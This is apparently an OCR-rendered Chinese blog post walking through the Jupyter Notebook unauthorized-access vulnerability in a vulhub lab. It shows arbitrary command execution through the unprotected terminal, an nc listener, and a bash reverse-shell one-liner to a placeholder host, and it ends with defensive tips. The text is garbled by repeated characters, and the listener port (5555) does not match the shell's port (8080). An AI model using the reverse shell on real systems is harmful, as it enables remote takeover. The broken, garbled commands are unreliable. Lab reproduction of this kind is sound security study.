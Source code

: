 # Jupyter Notebook 未授权访问漏洞简单复现



#### 简介及危害
Jupyter Notebook(此前被称为 IPython notebook)是一一个交互式笔记本,支支持运行行行 40 多种编
程语言言。 如果管理理员未为Jupyter Notebook配置密码,将导致未授权访问漏漏洞洞,游客可在其中创建一一
个console并执行行行任意Python代码和命令。


#### 环境介绍
```bash
# 目标
环境来源：https://github.com/vulhub/vulhub/blob/master/jupyter/notebook-rce/
ip地址： 192.168.0.100
```


#### 开始测试
1.运行测试环境：
```bash
docker-compose up -d
```

2.访问目标地址 http://192.168.0.100:8888

3.New > Terminal 创建控制台：可以直接执行任意命令
![](https://image.geoer.cn/smurf%E6%94%BB%E5%87%BB.png)

4.后面就直接执行任意命令，比如反弹shell等
```bash
# 本机监听
nc -lvp 5555

# 目标执行
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```


#### 防御手段
- 开启身份验证, 防止止未经授权用用户访问
- 访问控制策略略, 限制IP访问, 绑定固定IP


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jupyter-notebook-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0/  

